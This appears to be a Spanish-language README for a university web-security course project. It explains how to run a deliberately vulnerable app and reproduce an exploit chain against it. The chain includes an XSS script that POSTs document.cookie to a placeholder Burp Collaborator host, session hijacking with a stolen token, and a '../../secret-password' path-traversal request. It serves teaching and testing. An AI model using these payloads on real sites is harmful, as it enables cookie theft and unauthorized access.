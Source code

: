 # seguridad-apps-web
TP Grupal de la asignatura Seguridad en Aplicaciones Web de la UTN FRBA 1c 2022

## Requerimientos
Se debe instalar docker y docker-compose para correr la aplicacion.

## Ejecución
Parados en la carpeta principal del repositorio, ejecutar:

> docker-compose up --build

**Nota: no se deben tener en uso los puertos 3306 ni 3000 ya que son los que utiliza la aplicación.**

La aplicación se encontrará corriendo en:
> localhost:3000

## Reproducción de vulnerabilidades

*Paso 1)* Con el usuario sin autenticar, enviar la siguiente consulta habiendo abierto el Burp Suite Collaborator para obtener un subdominio burpcollaborator.net y recibir las credenciales en dicho colaborador.

/*:
    <script> 

        fetch('https://TU-SUBDOMINIO-ACA.burpcollaborator.net', { 

        method: 'POST', 

        mode: 'no-cors', 

        body:document.cookie 

        }); 

    </script>
*/

*Paso 2)* Ingresar con el usuario supporter para que ejecute ese script y le envie al colaborador su access_token. El usuario supporter existe por defecto: usuario: supporter, contraseña: supporter123

*Paso 3)* En el Burp Collaborator tiene que haberse recibido la interaccion con la request que tiene el access_token del supporter. Colocar dicha cookie en el usuario no autenticado para pasar a estar autenticado.

*Paso 4)* Una vez dentro, ir al directorio '/createUsers' y crearse un usuario con rol Engineer.

*Paso 5)* Hacer '/logout' con el usuario supporter e ingresar con el usuario Engineer que acabamos de crear.

*Paso 6)* Con el engineer se entra directo al panel de playground de IaC. Aca se puede colocar el query_param *filename* de la siguiente forma para leer el contenido del archivo secret-password:

'/iac_template?filename=../../secret-password'

*Paso 7)* Decodificar el contenido del archivo que nos imprimio el pantalla que se encuentra en hash MD5 para obtener el password.